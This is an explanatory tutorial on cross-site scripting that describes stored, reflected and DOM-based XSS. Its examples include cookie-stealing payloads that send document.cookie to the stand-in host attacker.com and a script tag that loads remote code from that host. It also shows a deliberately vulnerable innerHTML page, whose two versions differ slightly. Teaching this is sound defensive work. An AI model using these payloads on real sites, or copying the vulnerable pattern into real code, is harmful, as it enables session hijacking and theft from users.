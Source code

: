# Cross-Site Scripting \(XSS\)

Web applications usually respond to HTTP requests from a user's browser or other application. The server application will send a mixture of HTML, CSS and JavaScript that will be rendered and executed by the client. The browser will take the HTML and create a document object model \(DOM\) of the page using the CSS to style and format the HTML. Finally, JavaScript may be executed, and this could dynamically change the DOM and styling. Using JavaScript in this way helps to make the page responsive and avoiding round trips on the network back to the server. All of this makes the code that executes on the client vulnerable to attack in a number of different points in this process.

Cross-site scripting is another example of allowing unchecked and unsanitized input. In this case, the input is of HTML and JavaScript. If the JavaScript is executed by a target's browser, there is the potential to do a number of malicious things including:

* JavaScript to steal cookies that may contain session tokens that can be used for impersonation of a user.
* Use HTML5 to gain access to microphones, cameras and other devices on the computer
* Keylogging by registering event listeners
* Make other HTTP requests to carry out Server-Side Request Forgery \(SSRF\) attacks
* Change the appearance of the page to abuse the target

XSS relies on the targeted user to interact with URLs and to potentially allow access when requested, so it relies heavily on social engineering techniques to trick a user into doing things on the attacker's behalf. In this respect though, it is not that dissimilar to phishing attacks generally.

There are three main types of XSS. The first two differ in whether they are persistent or not.

### Stored XSS

Stored XSS is where an attacker injects malicious content that is stored by the application and then served up to other victims who visit the site. An example of this is would be injecting script into the input of a comment feature on a site which then gets displayed to other users. The script can be crafted to steal cookies by using the code:

```javascript
<script>window.location="http://attacker.com/?cookie=" + document.cookie</script>
```

Javascript can be incorporated into other HTML elements such as

```javascript
<img src="javascript:alert('XSS');">
```

More sophisticated scripts can be included from external sources:

```javascript
<script src=http://attacker.com/xss.js></script>
```

### Reflected XSS

This is a non-persistent XSS attack where the target is tricked into clicking a link to a site that incorporates the malicious script. An example of this would be tricking a target to click on a search link:

```markup
<a href=http://search.com/search?keyword=<script>window.location='http://attacker.com/?cookie=' + document.cookie</script>;>Click Here</a>

```

The script would be executed when the search function prints the results:

```text
You searched for: <script>window.location='http://attacker.com/?cookie=' + document.cookie</script>
Results: …
```

Again the user needs to be tricked into clicking a link and ideally not noticing the results of that click.

### DOM-based XSS

In DOM-based XSS, the attacker uses the existing scripts on a page to write malicious code to the page itself where it is then executed. All of this can happen on the client when the page's javaScript is executed bypassing any filtering or protection on the server itself.

Taking the requested URL from the previous example

`http://search.com/search?keyword=javascript:alert("DOM XSS on: " + document.domain)`

The following HTML would be vulnerable:

```markup
<html>
Your search: <em></em>
<script>
  var keyword = location.search.substring(9);
  document.querySelector('em').innerHTML = keyword;
  window.location=document.querySelector('em').innerHTML
</script>
</html>
```

This would then result in the malicious script being included in the page:

```markup
<html>
Your search: <em>javascript:alert("DOM XSS on: " + document.domain)</em>
<script>
  var keyword = location.search.substring(6);
  document.querySelector('em').innerHTML = keyword;
</script>
</html>
```

This would result in an alert being popped up.

